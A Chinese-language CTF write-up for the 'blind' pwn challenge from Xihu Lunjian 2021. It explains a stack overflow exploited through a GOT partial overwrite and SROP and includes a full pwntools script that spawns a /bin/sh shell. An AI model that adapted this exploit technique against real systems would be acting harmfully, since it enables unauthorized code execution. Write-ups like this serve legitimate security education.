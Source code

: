 ```yaml
---
layout: article
pageview: true
key: 2021-12-10-xihulunjian2021-pwn-wp
title: 西湖论剑2021初赛Pwn题WP
author: Ch4rc0al
categories:
  - WriteUps 
tags: 
  - PWN
  - CTF
---
```




西湖论剑2021初赛Pwn题WP



<!--more-->



## blind

主函数内一个栈溢出，没有开`PIE`，可利用函数只有`alarm`,`sleep`,`read`，结尾`return read(xxx)`，考虑`srop`，我们在`bss`段写下`/bin/sh`字符串，修改`alarm`函数的got表地址后一位为`0x?5`将其改为`syscall`，在栈上布置`Sigreturn frame`，内容为执行`execve('/bin/sh',0,0)`，在read里输入`0xf`个字符调用`signal return`，完成getshell。

代码很难看

```python
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

p=process('./blind')

debug=1

elf=ELF('./blind')
p_rdi=0x00000000004007c3
p_rsi_r15=0x00000000004007c1
call_rax=0x00000000004006ae
main=0x4006b6
bss=elf.bss()+0x100
pad='\x00'*0x58

def csu(call,rdi,rsi,rdx,ret):
    csu_end=0x4007ba
    csu_front=0x4007a0
    payload=pad+p64(csu_end)+p64(0)+p64(1)+p64(call)+p64(rdx)+p64(rsi)+p64(rdi)+p64(csu_front)+'\x00'*0x38+p64(ret)
    return payload

sigframe=SigreturnFrame()
sigframe.rax=constants.SYS_execve
sigframe.rsp=bss+0x100
sigframe.rdi=bss
sigframe.rsi=0
sigframe.rdx=0
sigframe.rip=elf.plt['alarm']

gdb.attach(p,'b read')

pay=csu(elf.got['read'],0,bss,0x8,main).ljust(0x500,'\x00')

p.send(pay)

p.send('/bin/sh\x00')

pay=(csu(elf.got['read'],0,elf.got['alarm'],0x1,0xdeadbeaf)[:-8]+csu(elf.got['read'],0,bss+0x100,0xf,elf.plt['alarm'])[0x58:]+str(sigframe)).ljust(0x500,'\x00')

p.send(pay)

p.send('\x15')

p.send('\x00'*15)

p.interactive()
```

